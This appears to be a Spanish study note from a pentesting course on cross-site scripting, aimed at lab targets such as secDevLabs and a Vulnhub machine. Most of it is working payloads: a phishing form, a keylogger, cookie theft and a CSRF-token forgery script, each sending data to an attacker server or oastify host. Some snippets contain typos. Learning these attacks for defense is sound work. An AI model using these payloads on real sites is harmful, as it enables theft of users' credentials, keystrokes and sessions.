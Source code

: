 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)
## HTML

```javascript
<h1>Hola</h1>                                                /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                      /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>

<img src="images/imagen.png">
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

```javascript
<script>alert("XSS")</script>                                /// Creamos una ventana emergente con codigo javascript que dice XSS

<script>
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>


```

----
Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP con un servidor hecho con http,  colocamos la IP de nuestro servidor en fetch.
```javascript
<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
También lo podemos hacer con HTML (Phishing)
```html
<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld(formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
Podemos crear un Keylogger JavaScript
```javascript
<script>
   var k = "";    document.onkeypress = funtion(e){
        e = e || window.event;                        // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

----
Podemos crear un Script para redirigir al usuario
```javascript
<script>
	window.location.href = "https://hack4u.io";
</script>
```



## JavaScript 

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activa el **httpOnly** y se encuentra en **Application** ya que eso impediria poder robarla.
* Esto seria un **Cookie Hijacking**

Esto lo colcaremos en la web de prueba y crearemos la publicacion
```javascript
<script src="http://192.168.68.111/test.js"></script>
```
* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script> y lo podemos pegar directamente en la web de prueba
```bash
❯ nvim test.js                                                  # Creamos el archivo js
```

Con este robamos la Cookie de Sesion del usuario.
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
request.send();         
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```
Después de tener la **Cookie de Session** podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, estaremos como el otro usuario.

----

Esto lo colocaremos en la web de prueba y crearemos la publicación
```javascript
<script src="http://192.168.68.111/pwned.js"></script>
```

* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script>
```bash
❯ nvim pwned.js                                                  # Creamos el archivo js
```

Esto se usa una vez obtenido la **csrf_token y value**
```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parserFromString(respose, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
req2.open('POST', 'http://localhost:10007/newgossip', false); 
req2.withcredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


